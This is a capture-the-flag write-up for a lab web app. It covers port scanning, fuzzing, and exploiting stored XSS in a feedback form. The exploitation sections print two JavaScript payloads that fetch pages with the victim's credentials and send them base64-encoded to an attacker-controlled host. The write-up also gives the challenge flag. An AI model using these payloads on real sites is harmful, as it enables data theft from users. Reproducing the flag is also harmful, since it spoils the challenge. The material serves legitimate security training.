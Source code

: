 ```yaml
---
sticker: emoji//1f6cd-fe0f
---
```



# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8080 |  http   |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![](cybersecurity/images/Pasted%2520image%252020241202124915.png)

Let's check source code:


![](cybersecurity/images/Pasted%2520image%252020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:



## FUZZING
---

![](cybersecurity/images/Pasted%2520image%252020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

# RECONNAISSANCE
---
if we take a look at the feedback, we are able to see the following:

![](cybersecurity/images/Pasted%2520image%252020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.




# EXPLOITATION
---


As said, this will be our payload:

```js
<script>  
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![](cybersecurity/images/Pasted%2520image%252020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:


![](cybersecurity/images/Pasted%2520image%252020241202130742.png)


As shown, we successfully exploited [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.


# READING THE FILE
---


```js
<script>  
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![](cybersecurity/images/Pasted%2520image%252020241202131136.png)

Nice, let's decode:

![](cybersecurity/images/Pasted%2520image%252020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```


